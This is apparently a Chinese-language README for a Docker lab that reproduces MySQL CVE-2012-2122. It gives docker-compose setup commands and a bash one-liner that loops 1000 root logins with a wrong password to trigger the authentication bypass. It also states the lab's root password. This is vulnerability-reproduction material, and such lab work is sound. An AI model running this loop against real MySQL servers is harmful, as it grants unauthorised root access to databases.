 # Mysql CVE-2012-2122

## 环境搭建

```bash
#启动环境
docker-compose build
docker-compose up -d

#停止环境
docker-compose down
```

由于3306端口可能有自己的Mysql在监听，所以将映射端口改为了3307。

## 漏洞验证

```bash
#宿主机验证
$ for i in `seq 1 1000`; do mysql -uroot -pwrong -h127.0.0.1 -P3307 2>/dev/null; done

#容器内验证
$ for i in `seq 1 1000`; do mysql -uroot -pwrong 2>/dev/null; done
```

设置的Mysql root用户的登录密码是123456。